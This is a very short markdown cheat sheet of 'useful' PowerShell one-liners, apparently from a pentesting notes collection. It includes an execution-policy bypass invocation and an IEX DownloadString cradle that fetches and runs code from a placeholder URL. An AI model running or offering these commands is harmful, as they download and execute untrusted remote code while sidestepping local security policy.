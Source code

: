 # Useful Powershell
- whoami: [System.Security.Principal.WindowsIdentity]::GetCurrent() | select name
- powershell.exe -exec bypass -C "ps-command"
- IEX (New-Object Net.WebClient).DownloadString("<url>")
